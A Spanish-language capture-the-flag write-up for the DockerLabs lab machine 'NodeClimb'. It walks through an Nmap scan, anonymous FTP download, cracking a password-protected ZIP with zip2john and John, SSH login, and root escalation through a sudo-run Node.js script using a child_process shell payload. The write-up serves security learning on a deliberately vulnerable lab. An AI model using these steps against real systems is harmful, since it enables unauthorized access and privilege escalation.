

# NodeClimb — DockerLabs Write-up

**Plataforma:** DockerLabs (https://dockerlabs.es/)  
**Dificultad:** Fácil  
**Fecha**: 08/05/2026
**SO:** Linux  
**Técnicas:** FTP anónimo, zip2john, John the Ripper, sudo node GTFOBins

---

## Reconocimiento

Escaneo completo con Nmap para detectar puertos abiertos, versiones y scripts por defecto:

```bash
sudo nmap -sS -sV -sC -T4 -oA nmap_nodeclimb <IP>
```


Resultados:

|Puerto|Estado|Servicio|
|---|---|---|
|21/tcp|open|FTP (vsftpd 3.0.3)|
|22/tcp|open|SSH (OpenSSH)|

El script de Nmap confirma que el FTP permite **login anónimo** y lista un archivo `secretitopicaron.zip`.

---

## Acceso FTP anónimo

Conexión al FTP con `lftp` usando credenciales anónimas:

```bash
lftp 172.17.0.2
login anonymous
ls
```


Se descarga el archivo `secretitopicaron.zip`:

```bash
get secretitopicaron.zip
```

---

## Cracking del ZIP con zip2john + John

El ZIP está protegido por contraseña. Se extrae el hash con `zip2john` y se crackea con John usando la wordlist `rockyou`:

```bash
zip2john secretitopicaron.zip > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


John encuentra la contraseña. Se descomprime el ZIP:

```bash
unzip secretitopicaron.zip
cat password.txt
```


El archivo `password.txt` contiene credenciales en texto claro: **usuario y contraseña**.

---

## Acceso SSH

Con las credenciales obtenidas se inicia sesión por SSH:

```bash
ssh mario@172.17.0.2
```

---

## Escalada de privilegios — sudo node (GTFOBins)

Una vez dentro, se comprueba qué puede ejecutar el usuario con sudo:

```bash
sudo -l
```

El usuario puede ejecutar un script de Node.js con `sudo` sin contraseña. Consultando [GTFOBins — node](https://gtfobins.github.io/gtfobins/node/), se edita el script para spawnear una shell como root:

```bash
nano script.js
```

Se introduce el payload:

```javascript
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```


Se ejecuta el script con sudo:

```bash
sudo node script.js
```

Shell obtenida como **root**.

---

## Herramientas utilizadas

|Herramienta|Uso|
|---|---|
|Nmap|Reconocimiento de puertos y servicios|
|lftp|Cliente FTP|
|zip2john|Extracción de hash de ZIP protegido|
|John the Ripper|Cracking de hash con rockyou|
|GTFOBins|Referencia para escalada vía node|

---

## Lecciones aprendidas

- `zip2john` extrae el hash de un ZIP cifrado en formato compatible con John.
- El módulo `child_process` de Node.js permite spawnear shells — si un script puede ejecutarse con sudo, es un vector de privesc directo.
- FTP anónimo sigue siendo un hallazgo crítico en cualquier auditoría real.